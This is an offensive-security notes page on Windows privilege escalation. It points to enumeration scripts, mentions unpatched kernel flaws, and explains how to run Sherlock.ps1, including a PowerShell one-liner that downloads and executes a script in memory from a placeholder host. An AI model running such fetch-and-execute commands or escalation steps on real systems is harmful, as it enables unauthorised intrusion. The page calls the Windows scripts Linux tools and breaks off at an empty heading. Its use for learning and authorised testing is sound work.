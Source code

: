 ```yaml
---
description: >-
  Privilege Escalation usually involves going from a lower permission to a
  higher permission.
---
```


# Windows Privesc

## Enumeration Scripts:

There are some scripts that could help us in order to escalate privilege on Linux systems. These are two examples:

* **PowerUp.ps1:** [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* **WinPEAS:** [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) ****

{% hint style="info" %}
**Info**: [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
{% endhint %}

## Kernel Vulnerabilities

We can exploit some kernel vulnerabilities in order to privesc.

{% hint style="warning" %}
**All Windows Server 2008 R2** without **HOTFIXES** are vulenrable to MS15 and MS16 \(MS15-051\)
{% endhint %}

### Sherlock.ps1

Is a powershell script that we can run out of memory in order to find some vulnerabilities.

First we need to modify it and add the following line to the end of the script:

```text
Find-AllVulns
```

Once added, we just need to start http server and executed directly from powershell.

```text
powershell.exe IEX(New-Object System.Net.Webclient).DownloadString('http://ip-addr:port/Sherlock.ps1')
```

{% embed url="https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1" %}

### Suggester
